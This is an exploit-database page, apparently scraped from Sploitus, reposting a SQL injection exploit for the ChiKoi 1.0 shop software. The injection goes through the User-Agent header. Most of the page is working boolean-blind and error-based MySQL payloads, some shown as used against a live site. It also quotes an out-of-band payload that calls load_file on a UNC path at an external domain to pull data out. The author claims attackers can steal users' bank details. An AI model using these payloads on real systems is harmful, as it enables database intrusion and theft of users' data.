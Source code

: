 ```yaml
---
title: ChiKoi 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170484&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-01-13
fetch_date: 2025-10-04T03:42:55.622171
---
```


# ChiKoi 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for ChiKoi 1.0 SQL Injection

2023-01-12 | CVSS 0.2

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170484
## Title: ChiKoi-1.0 SQLi
## Author: nu11secur1ty
## Date: 01.12.2023
## Vendor: https://chikoiquan.tanhongit.com/
## Software: https://github.com/tanhongit/new-mvc-shop/releases/tag/v1.0
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/tanhongit/2023/ChiKoi

## Description:
The `User-Agent` HTTP header appears to be vulnerable to SQL injection attacks.
The payload '+(select
load_file('\\\\v3z9cjkbngnzrm7piruwhl6olfr8fzknbqzlmba0.glumar.com\\quv'))+'
was submitted in the User-Agent HTTP header.
This payload injects a SQL sub-query that calls MySQL's load_file
function with a UNC file path that references a URL on an external
domain.
The attacker can steal all information from this system and can
seriously harm the users of this system,
such as extracting bank accounts through which they pay each other, etc.

## STATUS: HIGH Vulnerability - CRITICAL

[+] Payload:

```MySQL
---
Parameter: User-Agent (User-Agent)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
Payload: Mozilla/5.0 (Windows; U; Windows NT 6.1; hu; rv:1.9.1.9)
Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)' WHERE 2474=2474 AND
9291=(SELECT (CASE WHEN (9291=9291) THEN 9291 ELSE (SELECT 4553 UNION
SELECT 6994) END))-- -

Type: error-based
Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
Payload: Mozilla/5.0 (Windows; U; Windows NT 6.1; hu; rv:1.9.1.9)
Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)' WHERE 4578=4578 AND
(SELECT 8224 FROM(SELECT COUNT(*),CONCAT(0x71706b7171,(SELECT
(ELT(8224=8224,1))),0x716a6a6271,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- VCWR
---
```
[+] Online:

```MySQL
---
Parameter: User-Agent (User-Agent)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
Payload: Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.8.1)
Gecko/20060601 Firefox/2.0 (Ubuntu-edgy)' WHERE 8386=8386 AND
8264=(SELECT (CASE WHEN (8264=8264) THEN 8264 ELSE (SELECT 2322 UNION
SELECT 6426) END))-- -
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/tanhongit/2023/ChiKoi)

## Proof and Exploit:
[href](https://streamable.com/7x69yz)

## Time spent
`01:30:00`

## Writing an exploit
`00:05:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)